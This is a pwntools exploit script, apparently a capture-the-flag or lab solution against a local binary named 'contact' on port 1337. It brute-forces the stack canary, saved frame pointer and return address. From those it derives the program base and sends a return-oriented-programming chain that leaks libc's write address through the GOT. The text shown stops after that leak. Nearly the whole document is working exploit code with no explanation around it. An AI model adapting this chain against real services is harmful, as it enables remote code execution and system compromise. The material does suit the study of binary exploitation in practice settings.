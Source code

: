     elf = context.binary = ELF('./contact', checksec=False)
    host = '127.0.0.1'
    port = 1337
    
    
    ### Stage 0: Brute force addresses
    log.info("Starting brute force")
    exploit = b"A"*56
    canary = brute_word(exploit, 8, 'Canary')
    #canary = p64(0xc3c00f67449ca300)
    exploit += canary
    
    
    rbp = brute_word(exploit, 8, 'RBP')
    #rbp = p64(0x00007ffdf7d5285c)
    exploit += rbp
    
    ret = brute_word(exploit, 7, 'Return Address', b'\x62')
    #ret = p64(0x0000556ff9dd4562)
    
    
    ### Stage 1: Leak libc
    # Gadgets
    prog_base = u64(ret) - 0x1562
    pop_rdi_ret = p64(0x164b + prog_base)
    pop_rsi_r15_ret = p64(0x1649 + prog_base)
    pop_rdx_ret = p64(0x1265 + prog_base)
    write = p64(0x1050 + prog_base)
    write_got = p64(0x4028 + prog_base)
    
    junk = b"A"*56
    exploit =  junk + canary + rbp
    
    # write(4, write_got, 8)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += write_got
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(8)
    exploit += write
    
    log.info("Sending exploit to leak libc write address")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    libc_write = p.recv(8, timeout=300)
    log.success(f"libc write address: 0x{u64(libc_write):016x}")
    p.close()
    